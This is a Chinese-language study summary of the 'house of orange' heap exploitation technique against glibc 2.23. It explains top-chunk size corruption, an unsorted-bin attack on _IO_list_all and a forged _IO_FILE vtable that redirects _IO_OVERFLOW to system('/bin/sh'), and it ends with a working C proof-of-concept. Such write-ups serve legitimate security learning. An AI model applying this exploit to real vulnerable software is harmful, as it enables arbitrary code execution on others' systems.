# house-of-orange 学习总结

本篇总结以理解知识点为主，参考示例代码（https://github.com/jkrshnmenon/scripts/blob/master/Heap/house_of_orange.c）

### 0x00 修改top_chunk的size

> top = (size_t *) ( (char *) p1 + 0x400 - 16);  
> top[1] = 0xc01;//修改top_chunk的size



但是不能随意修改，sysmalloc中对该值进行了验证：
```
assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

  /* Precondition: not enough current space to satisfy nb request */
  assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));
```
所以要满足：

- 大于MINSIZE(0X10)
- 小于所需的大小 + MINSIZE
- prev inuse位设置为1
- old_top + oldsize的值是页对齐的

### 0x01 申请一块大内存，触发sysmalloc中的_int_free

>  p2 = malloc(0x1000);



如果要触发sysmalloc中_int_free，那么本次申请的堆大小也不能超过mp_.mmap_threshold，因为代码中也会根据请求值来做出不同的处理。

```
 if (av == NULL
      || ((unsigned long) (nb) >= (unsigned long) (mp_.mmap_threshold)
      && (mp_.n_mmaps < mp_.n_mmaps_max)))　
```
触发_int_free后，top_chunk就被释放到unsortbin中了

### 0x02 进行unsorted bin攻击

攻击之前的内存布局：



#### 攻击过程

因为top_chunk卸下来后变成unsorted_bin,只能通过main_arena+88的地址来覆盖_IO_list_all(通过将_IO_list_all-0x10的地址放置在bk中——unsorted bin攻击)



所以此时_IO_FILE为main_arena+88的地址，由于main_arena不能完全被控制，该_IO_FILE对象的数据基本不能用，要靠chain字段来转移到下一个_IO_FILE



chain字段的偏移为0x68，所以要将(main_arena+88)+0x68=(main_arena+192)的位置覆盖成top的地址，这样就会把top当成下一个_IO_FILE，而top又是我们可控的地方，在top里伪造虚表，并覆盖伪造虚表里的overflow函数地址为system地址。
如何将main_arena+192的地址覆盖成top的地址？
将chunk的大小改成0x61



main_arena的结构：



可以推算出main_arena+192的位置为bin[10]的位置，但是chunk大小改为0x61为啥会分配在bin[10]呢？

```
   /* place chunk in bin */

          if (in_smallbin_range (size))//size为0x61
            {
              victim_index = smallbin_index (size);//victim_index为6
              bck = bin_at (av, victim_index);//bck=&av->bins[(6-1)*2]-0x10=&av->bins[10]-0x10
              fwd = bck->fd;//fwd=&av->bins[10]
            }

        ...
mark_bin (av, victim_index);
victim->bk = bck;
victim->fd = fwd;
fwd->bk = victim;//old_top被加入av->bins[10]的链表中了。
bck->fd = victim;
```

```
#define smallbin_index(sz) \
  ((SMALLBIN_WIDTH == 16 ? (((unsigned) (sz)) >> 4) : (((unsigned) (sz)) >> 3))\
   + SMALLBIN_CORRECTION)  //0x61 >> 4 = 6
```

```
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))			      \
             - offsetof (struct malloc_chunk, fd))
```
### 0x03 申请内存，触发异常

从触发异常到执行攻击代码的路径如下：



```
int
_IO_flush_all_lockp (int do_lock)
{
  int result = 0;
  struct _IO_FILE *fp;
  int last_stamp;

...

  last_stamp = _IO_list_all_stamp;
  fp = (_IO_FILE *) _IO_list_all;
  while (fp != NULL)
    {
      run_fp = fp;
      if (do_lock)
	_IO_flockfile (fp);

      if (((fp->_mode <= 0 && fp->_IO_write_ptr > fp->_IO_write_base)
#if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
	   || (_IO_vtable_offset (fp) == 0
	       && fp->_mode > 0 && (fp->_wide_data->_IO_write_ptr
				    > fp->_wide_data->_IO_write_base))
#endif
	   )
	  && _IO_OVERFLOW (fp, EOF) == EOF)//将_IO_OVERFLOW覆盖成system，fp的地址上填充"/bin/sh"
	result = EOF;

            ...
      if (last_stamp != _IO_list_all_stamp)
	{
	  /* Something was added to the list.  Start all over again.  */
	  fp = (_IO_FILE *) _IO_list_all;
	  last_stamp = _IO_list_all_stamp;
	}
      else
	fp = fp->_chain; //单链表链接，通过这个，即使无法控制main_arena中的数据，但是通过chain链，将控制转移到我们到我们能控制的地方。
    }

    ...
  return result;
}
```
攻击后的内存布局：



为了执行_IO_OVERFLOW,需要满足之前的判断：
- fp->_mode <= 0不成立，所以fp->_mode > 0
- _IO_vtable_offset (fp) == 0
- fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base

 





最后，我们将vtable的值改写成我们构造的vtable起始地址，虚表的结构如下：



伪造的情况如下：



之后调用_IO_OVERFLOW就会调用填充的system函数。

### 0x04 例子代码

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int winner ( char *ptr);

int main()
{
    char *p1, *p2;
    size_t io_list_all, *top;
    p1 = malloc(0x400-16);//申请一块内存

    top = (size_t *) ( (char *) p1 + 0x400 - 16);
    top[1] = 0xc01;//修改top_chunk的size

    p2 = malloc(0x1000);//申请超过
       
    io_list_all = top[2] + 0x9a8;//获取io_list_all的值，相对偏移是固定的

    top[3] = io_list_all - 0x10;//部署unsorted bin攻击

    memcpy( ( char *) top, "/bin/sh\x00", 8);

    top[1] = 0x61;
   
    top[24] = 1;

    top[21] = 2;
    top[22] = 3;

   
    top[20] = (size_t) &top[18];

    top[15] = (size_t) &winner;
    top[27] = (size_t ) &top[12];
    malloc(10);

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}
```

### 0x05 参考链接

[1] http://simp1e.leanote.com/post/9571ae32e8ca

[2] https://www.anquanke.com/post/id/84965

[3] https://github.com/jkrshnmenon/scripts/blob/master/Heap/house_of_orange.c

[4] https://jkrshnmenon.wordpress.com/2017/08/30/hitcon-2016-house-of-orange-writeup/

[5] glibc-2.23源码

[6] http://www.cnblogs.com/shangye/p/6268981.html